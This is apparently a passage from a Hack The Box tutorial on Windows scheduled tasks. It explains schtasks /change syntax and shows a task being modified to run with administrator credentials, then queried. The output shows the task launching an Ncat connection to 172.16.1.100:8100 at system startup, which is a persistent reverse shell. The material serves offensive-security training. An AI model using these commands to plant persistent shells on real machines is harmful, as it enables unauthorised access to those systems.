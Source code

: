 Now let us look at what modifying a task would look like.

### Change the Properties of a Scheduled Task

#### Change Syntax

|**Action**|**Parameter**|**Description**|
|---|---|---|
|-----|-----|-----|
|`Change`||Allows for modifying existing scheduled tasks.|
||/tn|Designates the task to change|
||/tr|Modifies the program or action that the task runs.|
||/ENABLE|Change the state of the task to Enabled.|
||/DISABLE|Change the state of the task to Disabled.|

Ok, now let us say we found the `hash` of the local admin password and want to use it to spawn our Ncat shell for us; if anything happens, we can modify the task like so to add in the credentials for it to use.

```cmd-session
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.

```

Now to make sure our changes took, we can query for the specific task using the `/tn` parameter and see:

```cmd-session
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```

